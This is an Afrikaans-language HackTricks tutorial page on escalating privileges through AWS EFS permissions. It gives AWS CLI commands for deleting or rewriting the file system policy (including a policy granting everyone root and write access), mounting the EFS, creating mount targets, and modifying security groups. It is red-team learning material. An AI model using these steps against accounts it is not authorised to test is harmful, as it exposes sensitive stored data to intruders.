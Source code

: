 # AWS - EFS Privesc

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EFS

Meer **inligting oor EFS** in:

{% content-ref url="../aws-services/aws-efs-enum.md" %}
[aws-efs-enum.md](../aws-services/aws-efs-enum.md)
{% endcontent-ref %}

Onthou dat om 'n EFS te monteer, jy in 'n subnetwerk moet wees waar die EFS blootgestel is en toegang daartoe moet hê (veiligheidsgroepe). As dit gebeur, sal jy dit standaard altyd kan monteer, maar as dit deur IAM-beleide beskerm word, moet jy die ekstra toestemmings hê wat hier genoem word om toegang te verkry.

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

Met enige van daardie toestemmings kan 'n aanvaller die **lêerstelselsbeleid** **verander** om **jou toegang** daartoe te gee, of net om dit te **verwyder** sodat die **standaardtoegang** toegestaan word.

Om die beleid te verwyder:
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
Om dit te verander:
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

Met hierdie toestemming sal 'n aanvaller in staat wees om die **EFS te monteer**. As die skryftoestemming nie standaard aan almal wat die EFS kan monteer gegee word nie, sal hy slegs **lees toegang** hê.
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
Die ekstra toestemmings `elasticfilesystem:ClientRootAccess` en `elasticfilesystem:ClientWrite` kan gebruik word om **te skryf** binne die lêerstelsel nadat dit gemonteer is en om **toegang** tot daardie lêerstelsel **as root** te verkry.

**Potensiële Impak:** Indirekte privesc deur sensitiewe inligting in die lêerstelsel te lokaliseer.

### `elasticfilesystem:CreateMountTarget`

As jy 'n aanvaller is wat binne 'n **subnet** is waar **geen monteerdoel** van die EFS bestaan nie. Hy kan eenvoudig **een in sy subnet skep** met hierdie voorreg:
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**Potensiële Impak:** Indirekte privesc deur sensitiewe inligting in die lêerstelsel te lokaliseer.

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

In 'n scenario waar 'n aanvaller ontdek dat die EFS 'n mount target in sy subnetwerk het, maar **geen sekuriteitsgroep die verkeer toelaat nie**, kan hy eenvoudig **dit verander deur die geselekteerde sekuriteitsgroepe aan te pas**:
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**Potensiële Impak:** Indirekte privesc deur sensitiewe inligting in die lêerstelsel te lokaliseer.

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
